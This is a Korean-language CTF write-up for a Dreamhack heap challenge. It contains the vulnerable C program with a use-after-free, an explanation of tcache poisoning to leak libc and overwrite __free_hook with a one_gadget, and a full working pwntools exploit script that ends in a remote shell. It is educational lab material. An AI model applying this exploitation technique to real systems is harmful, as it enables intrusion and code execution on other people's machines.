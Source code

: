 ```c
// Name: tcache_poison.c
// Compile: gcc -o tcache_poison tcache_poison.c -no-pie -Wl,-z,relro,-z,now

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  void *chunk = NULL;
  unsigned int size;
  int idx;

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);

  while (1) {
    printf("1. Allocate\n");
    printf("2. Free\n");
    printf("3. Print\n");
    printf("4. Edit\n");
    scanf("%d", &idx);

    switch (idx) {
      case 1:
        printf("Size: ");
        scanf("%d", &size);
        chunk = malloc(size);
        printf("Content: ");
        read(0, chunk, size - 1);
        break;
      case 2:
        free(chunk);
        break;
      case 3:
        printf("Content: %s", chunk);
        break;
      case 4:
        printf("Edit chunk: ");
        read(0, chunk, size - 1);
        break;
      default:
        break;
    }
  }

  return 0;
}
```

```bash
$ checksec ./tcache_poison
[*] './tcache_poison'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 코드 분석

* `tcache_poison.c:31-33` : 청크를 해제한 후 `chunk` 포인터를 초기화하지 않으므로 dangling pointer가 발생하며, 이를 활용하면 double free bug를 발생시킬 수 있다.
* `tcache_poison.c:37-40` : `chunk` 포인터가 초기화되지 않았으므로 dangling pointer가 가리키는 해제된 chunk의 데이터를 마음대로 수정할 수 있다.

# 공격

## Tcache Poisoning

위에서 살펴봤듯, 관련된 보호 기법이 없으므로 적당한 크기의 청크를 할당하고, `key`를 조작한 뒤, 다시 해제하면 Tcache Duplication이 가능하다.
그 상태에서, 다시 청크를 할당하고 원하는 주소를 값으로 쓰면 tcache에 임의 주소를 추가할 수 있을 것입니다.

## Libc Leaking

`tcache_poison.c:13-14`를 보면, `setvbuf` 함수에 인자로 `stdin`과 `stdout`을 전달하는데, 이 포인터 변수들은 각각 `libc` 내부의 `IO_2_1_stdin`과 `IO_2_1_stdout`을 가리킨다.
따라서 이 중 한 값을 읽으면 그 값을 이용하여 `libc`의 베이스를 계산할 수 있다.

이 포인터들은 전역 변수로서 bss에 위치하는데, PIE가 적용되어 있지 않으므로 포인터들의 주소는 고정되어 있다.
따라서 tcache poisoning으로 포인터 변수의 주소에 청크를 할당하여 그 값을 읽을 수 있다.

## Hook Overwrite to Get Shell

`libc`의 베이스를 구한 뒤, 이로부터 one-gadget의 주소와 `__free_hook`의 주소를 계산 가능하다.
다시 tcache poisoning으로 `__free_hook`에 청크를 할당한 후, 그 청크에 적절한 one-gadget의 주소를 쓰면 `free`를 호출하여 shell을 탈취할 수 있다.

```bash
$ one_gadget libc-2.27.so 
0x4f3ce execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, "-c", r12, NULL} is a valid argv

0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, r12, NULL} is a valid argv

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL || {[rsp+0x40], [rsp+0x48], [rsp+0x50], [rsp+0x58], ...} is a valid argv

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
```

이중 조건을 만족하는 one-gadget을 찾기 위해 gdb를 활용하여 `__free_hook`을 호출한 직후의 스택을 확인해보면 다음과 같은 결과를 얻을 수 있다.

```bash
pwndbg> x/gx $rsp+0x40
0x7fffffffe508: 0x0000000000000000
pwndbg> x/gx $rsp+0x70
0x7fffffffe538: 0x000000000040087e
```

따라서 `[rsp+0x40] == NULL`이면 제한조건이 만족되는 `0x4f432`를 사용하면 됨을 알 수 있다.

## Exploit

위 사실들을 바탕으로 익스플로잇 코드를 작성하면 다음과 같다.

```python
# Name: Tcache Poisoning.py

from pwn import *

def slog(name,addr): success(f'{name}: {hex(addr)}')

HOST = 'host3.dreamhack.games'
PORT = 24515

p = remote(HOST,PORT) # remote
# p = process('./tcache_poison') # local
e = ELF('./tcache_poison')
libc = ELF('./libc-2.27.so')


#ifndef __Custom_Functions_For_Convenience_
#define __Custom_Functions_For_Convenience_
def alloc(size, data):
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Content: ', data)

def free():
    p.sendlineafter(b'Edit\n', b'2')

def print():
    p.sendlineafter(b'Edit\n', b'3')

def edit(data):
    p.sendlineafter(b'Edit\n', b'4')
    p.sendafter(b'Edit chunk: ', data)
#endif /* __Custom_Functions_For_Convenience_ */

#ifndef __Global_Variables_For_Convenience_
#define __Global_Variables_For_Convenience_
dummy = b'D'
one_gadget_offset = 0x4f432
free_hook_offset = libc.symbols['__free_hook']
io_2_1_stdout = libc.symbols['_IO_2_1_stdout_']
#endif /* __Global_Variables_For_Convenience_ */

# Initial tcache is empty.
# tcache[0x40]: empty

# tcache[0x40]: Chunk A
alloc(0x30, b'dobby is free') # Allocate Chunk A
free() # tcache[0x40].append(Chunk A)

# tcache[0x40]: Chunk A -> Chunk A
edit(dummy * 8 + b'\x00') # Bypassing the DFB mitigation
free() # tcache[0x40].append(Chunk A)

# tcache[0x40]: chunk A -> stdout -> _IO_2_1_stdout_ -> ...
addr_stdout = e.symbols['stdout']
alloc(0x30, p64(addr_stdout)) # tcache[0x40].pop(); tcache[0x40].first().set_fd(addr_stdout)

# tcache[0x40]: stdout -> _IO_2_1_stdout_ -> ...
alloc(0x30, dummy) # tcache[0x40].pop()

# tcache[0x40]: _IO_2_1_stdout_ -> ...
io_2_1_stdout_lsb = p64(io_2_1_stdout)[0:1] # The least significant byte of _IO_2_1_stdout_.
                                            # This is necessary not to change the position the stdout points to.
alloc(0x30, io_2_1_stdout_lsb)  # tcache[0x40].safe_pop()

# Libc leak
print()
p.recvuntil('Content: ')
stdout = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = stdout - io_2_1_stdout
free_hook = libc_base + free_hook_offset
one_gadget = libc_base + one_gadget_offset

# Logging
slog('libc base', libc_base)
slog('__free_hook', free_hook)
slog('one gadget', one_gadget)

# tcache[0x50]: empty

# tcache[0x50]: Chunk B
alloc(0x40, b'dobby is free') # Allocate Chunk B
free() # tcache[0x50].append(Chunk B)

# tcache[0x50]: Chunk B -> Chunk B
edit(dummy * 8 + b'\x00') # Bypassing the DFB mitigation
free() # tcache[0x50].append(Chunk B)

# tcache[0x50]: Chunk B -> __free_hook -> ...
alloc(0x40, p64(free_hook)) # tcache[0x50].pop(); tcache[0x50].first().set_fd(free_hook)

# tcache[0x50]: __free_hook -> ...
alloc(0x40, dummy)

# __free_hook = one_gadget
alloc(0x40, p64(one_gadget))

# call free()
free()

p.interactive()
```